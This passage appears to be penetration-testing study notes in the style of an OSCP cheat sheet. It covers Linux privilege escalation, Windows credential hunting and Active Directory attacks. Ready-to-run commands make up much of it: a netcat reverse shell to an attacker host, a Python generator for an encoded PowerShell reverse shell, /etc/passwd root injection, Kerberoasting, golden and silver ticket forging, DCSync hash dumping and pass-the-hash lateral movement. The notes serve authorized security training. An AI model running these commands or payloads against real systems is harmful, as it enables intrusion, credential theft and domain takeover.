- To view crontab, `cat /etc/crontab`
- Any one can view it!
- Now we'll can see some cron-jobs see whether you can edit or not, if you can then edit with some reverse shell and listen!

```bash
#Detecting Cronjobs
cat /etc/crontab
crontab -l

pspy #handy tool to livemonitor stuff happening in Linux

grep "CRON" /var/log/syslog #inspecting cron logs
```
## NC Netcat

`-e` is implementation-specific and absent from OpenBSD netcat. Check `nc -h` before using historical examples; a listener alone does not execute a shell.

```bash
nc -nlvp <port> 
nc <attacker-ip> <port> -e /bin/bash
```
## NFS

- Read `/etc/exports` and included `/etc/exports.d/*.exports` on the server if permitted. `showmount -e <target IP>` lists exports where the mount service is available; it does not reveal all export options and can miss NFSv4-only configurations.
- Verify `no_root_squash` in the server configuration or effective behavior. The export must also be writable, and the target execution mount must honor SUID (not `nosuid`). Client root privileges alone do not bypass root squashing.
- Now after getting some directories where we can play around lets navigate to our attacker machine and create a sample directory anywhere like `/tmp`...etc
- Now we need to mount to the target machine by, `mount -o rw <targetIP>:<share-location> <directory path we created>`, here `rw` means read, write privileges.
- Now go to the folder we created and create a binary which gives us root on running.
- Then go back to the target machine and run the binary from the exported directory. Making it executable is not sufficient: the binary must be owned by root and have its owner SUID bit set, for example with `chmod u+s <binary>` from the client root context.
- Then we're good to go!
  
```bash
##Mountable shares
cat /etc/exports #On target
showmount -e <target IP> #On attacker
###Verify export options on the server; showmount does not establish no_root_squash.

mount -o rw <targetIP>:<share-location> <directory path we created>
#Now create a binary there
chmod +x <binary>
```

## PATH

[](https://github.com/saisathvik1/Linux-Privilege-Escalation-Notes#path)

- PATH is an environment variable
- In order to run any binary we need to specify the full path also, but if the address of file is specified in PATH variable then we can simpley run the binary by mentioning its name, like how we run some command line tools like ls, cd,....etc
- In order to view the content in PATH variable we need to run `echo $PATH` and the outpur will be something like this `usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`
- So whenever you use a tool without specifying path it searches in PATH and it runs!
- We can even add new path to PATH variable by `export PATH=<new-path>:$PATH`
- Also we need to find a writable paths so run `find / -writable 2>/dev/null`
- In the example I found a location where there's a script when I run its showing that "thm" not found, also it can be run as ROOT
- So I created a binary like `echo "/bin/bash" > thm` and gave executable rights then later added the path where **thm** located to PATH variable and now when I ran the binary then I got root!

---

## Writable /etc/passwd file
```bash
>ls -l /etc/passwd
-rw-rw-rw- 1 root root 1370 Apr 12 16:44 /etc/passwd (#Write permission)
>openssl passwd ashok
DLYJ9ZDE6uY5o
>echo "ashok:DLYJ9ZDE6uY5o:0:0:root:/root:/bin/bash" >> /etc/passwd
>su ashok(#password is also ashok, switch directory to ashok get the flag)
```
## Exploiting Kernel Vulnerabilities

Match the exact kernel package, architecture and configuration to the distribution advisory, including backported fixes. A banner match does not prove exploitability. Record these before selecting an external PoC:

```bash
uname -r
uname -m
cat /etc/os-release
```

## CVE - Linux

See [CVE references](docs/cve-references.md) for scoped Sudo, polkit and kernel advisories with external GitHub PoCs. Match each repository's supported target rather than assuming one script works on every affected version.

---

# Post Exploitation

> This is more windows specific as exam specific.
> 

<aside>
💡 Run WinPEAS.exe - This may give us some more detailed information as no we’re a privileged user and we can open several files, gives some edge!

</aside>

## Sensitive Information

### Powershell History

```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

#Example
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
```

### Searching for passwords

```powershell
dir /s *pass* *.config
findstr /si password *.xml *.ini *.txt
```

### Searching in Registry for Passwords

```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

<aside>
💡 Always check documents folders, i may contain some juicy files

</aside>

### KDBX Files

```powershell
#These are KeyPassX password stored files
cmd> dir /s /b *.kdbx 
Ps> Get-ChildItem -Recurse -Filter *.kdbx

#Cracking
keepass2john Database.kdbx > keepasshash
john --wordlist=/home/sathvik/Wordlists/rockyou.txt keepasshash
```

## Dumping Hashes

Identify the credential source and effective read privileges first. Mimikatz access depends on protection and token context; BloodHound maps directory relationships and does not dump password hashes. See [AD credential handling](docs/active-directory.md#4-track-credentials-and-authentication-types).

---

# Active Directory Pentesting

<aside>
💡 We perform the following stuff once we’re in AD network

</aside>

## Enumeration

```bash
net localgroup Administrators #to check local admins 
```

### Powerview

```powershell
Import-Module .\PowerView.ps1 #loading module to powershell, if it gives error then change execution policy
Get-NetDomain #basic information about the domain
Get-NetUser #list of all users in the domain
# The output can be filtered with Select-Object. For example, `Get-NetUser | Select-Object cn`; multiple properties can be separated by commas.
Get-NetGroup # enumerate domain groups
Get-NetGroup "group name" # information from specific group
Get-NetComputer # enumerate the computer objects in the domain
Find-LocalAdminAccess # scans the network in an attempt to determine if our current user has administrative permissions on any computers in the domain
Get-NetSession -ComputerName files04 -Verbose #Checking logged on users with Get-NetSession, adding verbosity gives more info.
Get-NetUser -SPN | select samaccountname,serviceprincipalname # Listing SPN accounts in domain
Get-ObjectAcl -Identity <user> # enumerates ACE(access control entities), lists SID(security identifier). ObjectSID
Convert-SidToName <sid/objsid> # converting SID/ObjSID to name 

# Checking for "GenericAll" right for a specific group, after obtaining they can be converted using convert-sidtoname
Get-ObjectAcl -Identity "group-name" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights 

Find-DomainShare #find the shares in the domain

Get-DomainUser -PreauthNotRequired -verbose # identifying AS-REP roastable accounts

Get-NetUser -SPN | select serviceprincipalname #Kerberoastable accounts
```
### Domain

PowerShell (CIM works without the deprecated WMIC executable):

```powershell
Get-CimInstance Win32_ComputerSystem | Select-Object Name,Domain,PartOfDomain
Get-DnsClientServerAddress -AddressFamily IPv4
```

Use the AD DNS domain and DC FQDN for Kerberos. A successful ping does not establish LDAP or Kerberos reachability.

### Bloodhound

Use BloodHound Community Edition and a compatible collector. The legacy Neo4j desktop setup is not the CE deployment process. Follow the [official deployment and collector guidance](https://bloodhound.specterops.io/collect-data/ce-collection/overview).

Kali, with the CE variant of BloodHound.py installed:

```bash
bloodhound-ce-python -u '<USER>' -p '<PASSWORD>' -ns <DC_IP> -d <DOMAIN> -c All --zip
```

Windows, with a CE-compatible SharpHound release:

```powershell
.\SharpHound.exe --CollectionMethods All --OutputDirectory C:\Temp\bloodhound
```

Import the output into CE and check collection errors before interpreting paths. See [AD workflow](docs/active-directory.md) for permissions, DNS and credential scope. Legacy `bloodhound-python` output must match a legacy deployment.

### LDAPDOMAINDUMP

- These files contains information in a well structured webpage format.

```bash
sudo ldapdomaindump ldaps://<IP> -u 'username' -p 'password' #Do this in a new folder
```

### PlumHound

These are legacy Neo4j workflows. Check the project's supported BloodHound generation before using them with CE.

- Link: https://github.com/PlumHound/PlumHound install from the steps mentioned.
- Keep both Bloodhound and Neo4j running as this tool acquires information from them.

```bash
python3 PlumHound.py --easy -p <neo4j-password> #Testing connection
python3 PlumHound.py -x tasks/default.tasks -p <neo4jpass> #Open index.html as once this command is completed it produces somany files
firefox index.html
```

### PingCastle

- [www.pingcastle.com](http://www.pingcastle.com) - Download Zip file from here.
- This needs to be run on windows machine, just hit enter and give the domain to scan.
- It gives a report at end of scan.

### PsLoggedon

```powershell
# To see user logons at remote system of a domain(external tool)
.\PsLoggedon.exe \\<computername>
```

### GPP or CPassword

- Impacket

```bash
# with a NULL session
impacket-Get-GPPPassword -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
impacket-Get-GPPPassword 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash (with an NT hash)
impacket-Get-GPPPassword -hashes :'NThash' 'DOMAIN'/'USER'@'DOMAIN_CONTROLLER'

# parse a local file
impacket-Get-GPPPassword -xmlfile '/path/to/Policy.xml' 'LOCAL'
```

- SMB share - If SYSVOL share or any share which `domain` name as folder name

```bash
#Download the whole share
https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md
#Navigate to the downloaded folder
grep -inr "cpassword"
```

- NetExec

```bash
nxc smb <TARGET[s]> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
nxc smb <TARGET[s]> -u <USERNAME> -H <LMHASH>:<NTHASH> -d <DOMAIN> -M gpp_password
```

- Decrypting the CPassword

```bash
gpp-decrypt "cpassword"
```

## **Attacking Active Directory**

<aside>
💡 Make sure you obtain all the relevant credentials from compromised systems, we cannot survive if we don’t have proper creds.

</aside>

### Zerologon

Historical, patched CVE-2020-1472; not a generic credential-free hash dump. It requires a vulnerable DC and reachable Netlogon RPC. Exploit variants can change the DC machine-account password and disrupt the domain. Consult the [external reference](docs/cve-references.md) before considering it in a disposable lab.

### Password Spraying

```powershell
# NetExec - administrative access is indicated by "Pwn3d!"
nxc smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success #continue testing after a successful authentication

# Kerbrute
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```
### DeadPotato SeImpersonatePrivilege

The former machine-specific DeadPotato command had no pinned upstream build or reproducible prerequisites and has been removed. Start with [token impersonation](#token-impersonation): verify privileges, OS build, architecture and required services before selecting a tool. Creating a local administrator does not automatically grant domain access or RDP access.

### AS-REP Roasting

Mode 18200 below applies to `$krb5asrep$23$`. AES AS-REP formats use different modes; identify the actual output before cracking.

```powershell
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request #this gives us the hash of AS-REP Roastable accounts, from kali linux
.\Rubeus.exe asreproast /nowrap #dumping from compromised windows host

hashcat -m 18200 hashes.txt wordlist.txt # select this mode only for the matching hash type
```

### Kerberoasting

Mode 13100 below applies to `$krb5tgs$23$`; AES etypes 17/18 use different modes. An SPN is an enumeration finding, not a promise of a crackable password.

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast #dumping from compromised windows host, and saving with customname

impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request #from kali machine

hashcat -m 13100 hashes.txt wordlist.txt # select this mode only for the matching hash type
```

### Silver Tickets

Historical recipe: possession of a service key does not guarantee current PAC validation will accept a forged ticket. Check SPN, encryption type and target/DC patches; see [chain compatibility](docs/command-audit.md#recheck-every-transition-in-a-chain).

- Obtaining hash of an SPN user using **Mimikatz**

```powershell
privilege::debug
sekurlsa::logonpasswords #obtain NTLM hash of the SPN account here
```

- Obtaining Domain SID

```powershell
ps> whoami /user
# this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain   SID is "S-1-5-21-1987370270-658905905-1781884369"
```

- Forging silver ticket Ft **Mimikatz**

```powershell
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user>
exit

# we can check the tickets by,
ps> klist
```

- Accessing service

```powershell
ps> iwr -UseDefaultCredentials <servicename>://<computername>
```

### Secretsdump

```powershell
impacket-secretsdump <domain>/<user>:<password>@<IP>
impacket-secretsdump -hashes <LMHASH>:<NTHASH> <user>@<IP> #local user (domain omitted)
impacket-secretsdump -hashes <LMHASH>:<NTHASH> <domain>/<user>@<IP> #domain user
```

### Dumping NTDS.dit

```bash
impacket-secretsdump -just-dc-ntlm <domain>/<user>:<password>@<IP>
# Normally uses DRSUAPI replication (DCSync); requires directory replication rights. This is not a file copy of NTDS.dit.
```

## Lateral Movement in Active Directory

### psexec - smbexec - wmiexec - atexec

- Here we can pass the credentials or even hash, depending on what we have

> Impacket expects `LMHASH:NTHASH`; if the LM half is unavailable, use `:<NTHASH>`. NetExec and Evil-WinRM also accept a bare NT hash. These formats do not accept Net-NTLMv2 challenge-response strings.
> 

```powershell
impacket-psexec <domain>/<user>:<password>@<IP>
# Requires a writable SMB share AND permission to create/start a service; share write access alone is insufficient.

impacket-psexec -hashes <LMHASH>:<NTHASH> <domain>/<user>@<IP> <command>
#we passed full hash here

impacket-smbexec <domain>/<user>:<password>@<IP>

impacket-smbexec -hashes :<NTHASH> <domain>/<user>@<IP>
# Enter commands in the semi-interactive shell; smbexec has no trailing command argument.
#we passed full hash here

impacket-wmiexec <domain>/<user>:<password>@<IP>

impacket-wmiexec -hashes <LMHASH>:<NTHASH> <domain>/<user>@<IP> <command>
#we passed full hash here

impacket-atexec -hashes <LMHASH>:<NTHASH> <domain>/<user>@<IP> <command>
#we passed full hash here
```

### winrs

```powershell
winrs -r:<computername> -u:<user> -p:<password> "command"
# run this and check whether the user has access on the machine, if you have access then run a powershell reverse-shell
# run this on windows session
```

### NetExec

- NetExec is the maintained successor to CrackMapExec. Refer to the [official wiki](https://www.netexec.wiki/) for current protocol and option support.

```bash
nxc <protocol> --help #for example: nxc smb --help
nxc smb <Rhost/range> -u user.txt -p password.txt --continue-on-success #test credential lists and continue after successes
nxc smb <Rhost/range> -u user.txt -p password.txt --no-bruteforce --continue-on-success | grep -F '[+]' #matched pairs; literal success marker
nxc smb <Rhost/range> -u user.txt -p 'password' --continue-on-success #password spraying

#Use -d <DOMAIN> for domain identities or --local-auth for a verified local account; do not switch scope blindly.
nxc smb <Rhost/range> -u 'user' -p 'password' --shares #list shares and access
nxc smb <Rhost/range> -u 'user' -p 'password' --disks #enumerate disks
nxc smb <DC-IP> -u 'user' -p 'password' --users #enumerate domain users
nxc smb <Rhost/range> -u 'user' -p 'password' --smb-sessions #enumerate active SMB sessions
nxc smb <Rhost/range> -u 'user' -p 'password' --loggedon-users #enumerate logged-on users
nxc smb <Rhost/range> -u 'user' -p 'password' --pass-pol #dump password policy
nxc smb <Rhost/range> -u 'user' -p 'password' --sam #dump SAM hashes; requires administrative access
nxc smb <Rhost/range> -u 'user' -p 'password' --lsa #dump LSA secrets; requires administrative access
nxc smb <DC-IP> -u 'user' -p 'password' --ntds #dump NTDS data from a domain controller; requires sufficient privileges
nxc smb <Rhost/range> -u 'user' -p 'password' --groups '<groupname>' #enumerate a domain group and its members
nxc smb <Rhost/range> -u 'user' -p 'password' -x 'command' #use -x for CMD or -X for PowerShell

#Pass the hash
nxc smb <ip or range> -u username -H <NTHASH> --local-auth
#We can run all the above commands with hash and obtain more information

#NetExec modules
nxc smb -L #list SMB modules
nxc smb -M gpp_password --options #show options for an installed module
nxc smb <Rhost> -u 'user' -p 'password' -M gpp_password #run the module
```

- NetExec database

```bash
nxcdb #launch the database console
help #list console commands
proto smb #select the SMB protocol database
```
### kpcli - KeePass password manager
Found the Database.kdbx file in the smb enumeration
```
smbclient -L //<TARGET>
smb shell> smb: \DB-back (1)\New Folder\Emma\Documents\> get Database.kdbx
keepass2john Database.kdbx > keepass.hash
hashcat -m 13400 keepass.hash  /home/kali/HTB/OSCP/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule (#Password - welcome)
john keepass.hash(#Password - welcome)
```
Cracking the Kdbx file with kpcli
```
>kpcli --kdb=Database.kdbx (#Password - welcome)
>ls
>cd Databases
>cd Windows
>show emma
#Password show in hide RED, select with mouse it will unhide multiple times. 
```

### Pass the ticket

```powershell
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

### DCOM

DCOM execution requires a reachable RPC endpoint mapper and dynamic RPC ports, remote activation permissions, and a suitable registered COM application. Current Windows DCOM hardening can invalidate old clients. The former truncated encoded payload was not executable and has been removed.

Use the maintained [Impacket DCOM example and its installed help](https://github.com/fortra/impacket/blob/master/examples/dcomexec.py) for supported methods. Validate access with a harmless identity check before relying on a shell.

### Golden Ticket

Historical lab example. An arbitrary username and an old RC4-only recipe are not universally accepted on patched domains. Confirm principal, key material, encryption and PAC requirements before using the [upstream tool](https://github.com/gentilkiwi/mimikatz). See [chain compatibility](docs/command-audit.md#recheck-every-transition-in-a-chain).

1. Get the krbtgt hash

```powershell
.\mimikatz.exe
privilege::debug
#below are some ways
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::dcsync /user:krbtgt

kerberos::purge #removes any exisiting tickets

#sample command
kerberos::golden /user:sathvik /domain:evilcorp.com /sid:S-1-5-21-510558963-1698214355-4094250843 /krbtgt:4b4412bbe7b3a88f5b0537ac0d2bf296 /ticket:golden

#Saved with name "golden" here, there are other options to check as well
```

1. Obtaining access!

```powershell
mimikatz.exe #no need for highest privileges
kerberos::ptt golden
misc::cmd #we're accessing cmd
```

### Shadow Copies

```powershell
vshadow.exe -nw -p C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
## Windows PowerShell payload encoding
<a href="https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
">GitHub link</a>
<a href="https://discord.com/channels/780824470113615893/1087927556604432424/1271916461442728098"> Discord Chat</a>
```powershell 
#!/usr/bin/env python3
#
# generate reverse powershell cmdline with base64 encoded args
#

import sys
import base64

def help():
    print("USAGE: %s IP PORT" % sys.argv[0])
    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
    exit()
    
try:
    (ip, port) = (sys.argv[1], int(sys.argv[2]))
except:
    help()

# payload from Nikhil Mittal @samratashok
# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)

cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmdline)
```

# References

[](https://github.com/saisathvik1)
[](https://github.com/swisskyrepo)
---
